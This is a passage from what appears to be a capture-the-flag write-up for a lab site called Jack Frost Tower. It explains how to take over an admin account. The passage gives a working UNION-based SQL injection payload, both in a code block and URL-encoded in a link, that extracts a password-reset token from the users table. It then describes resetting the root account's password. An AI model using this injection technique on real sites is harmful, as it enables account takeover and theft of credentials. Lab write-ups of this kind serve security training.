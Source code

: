     Next, use one of the email addresses (e.g., *root@localhost*) to initiate a password reset using the [/forgotpass](https://staging.jackfrosttower.com/forgotpass) endpoint. Once the reset request has been submitted, use the query below to perform another SQLi attack against the [/detail](https://staging.jackfrosttower.com/detail/0%2C0%20union%20select%20%2A%20from%20%28%28select%201%29F1%20join%20%28select%20token%20from%20users%20where%20email%3D%27root%40localhost%27%29F2%20join%20%28select%203%29F3%20join%20%28select%204%29F4%20join%20%28select%205%29F5%20join%20%28select%206%29F6%20join%20%28select%207%29F7%29%3B--) endpoint to retrieve the `token` value for the chosen account.

    ```sql title="Retrieve reset token"
    0,0 union select * from 
    ((select 1)F1 join (select token from users where email='root@localhost')F2 join 
    (select 3)F3 join (select 4)F4 join (select 5)F5 join (select 6)F6 join (select 7)F7);--
    ``` 

    Making a request to [/forgotpass/token/{token}](https://staging.jackfrosttower.com/orgotpass/token/{token}) will allow us to create a new password for the *root@localhost* account and log in. Our full administator status now also allows us to delete contact entries, access the user list, and create additional administrator accounts for all our friends.

    ![/userlist](../img/objectives/o12/userlist.png){: class=border }
